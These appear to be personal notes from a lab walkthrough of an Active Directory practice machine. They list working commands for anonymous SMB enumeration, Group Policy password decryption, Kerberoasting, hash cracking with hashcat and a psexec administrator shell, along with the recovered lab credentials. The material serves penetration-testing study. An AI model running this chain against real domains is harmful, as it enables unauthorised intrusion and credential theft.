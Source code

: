 # Take Away
# Metadata
- Looking at the `autorecon` result, it seems that `SMB` allows anonymous access.![[Pasted image 20240303205805.png]]
- Running `netexec smb 10.10.10.100 -u "" -p ""` can further confirm.![[Pasted image 20240303205905.png]]
	- Run `netexec smb 10.10.10.100 -u "" -p "" --shares` identify a readable share named `Replication`. Use `netexec smb 10.10.10.100 -u "" -p "" -M spider_plus -o DOWNLOAD_FLAG=True OUTPUT_FOLDER=./smb` download all files down to local host.
- Under `Replication/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups`, there is a GPP file which contains credential for `active.htb\SVC_TGS`.![[Pasted image 20240303210319.png]]
	- The password is encrypted with a known secret. Hence, run `gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ` to obtain credential as
		- `active.htb\SVC_TGS`: GPPstillStandingStrong2k18
		- ![[Pasted image 20240303210726.png]]
- Run `netexec smb 10.10.10.100 -u SVC_TGS -p GPPstillStandingStrong2k18` reveals that `SVC_TGS` is not a local administrator.
- Hence, we need to opt for `ASPRoasting` and `Kerberoasting`.
	- Run `impacket-GetUserSPNs -dc-ip 10.10.10.100 active.htb/SVC_TGS:GPPstillStandingStrong2k18 -request -outputfile kerbr.hash` to identify  SPN `active/CIFS:445` under the Domain Administrator Account.![[Pasted image 20240303211015.png]]
	- Run `hashcat -m 13100 kerbr.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force` to obtain the credential as
		- `active.htb\administrator`: Ticketmaster1968
		- ![[Pasted image 20240303211937.png]]
# Exploitation
- No User Access
# PrivEsc
- `impacket-psexec active.htb/administrator:Ticketmaster1968@10.10.10.100`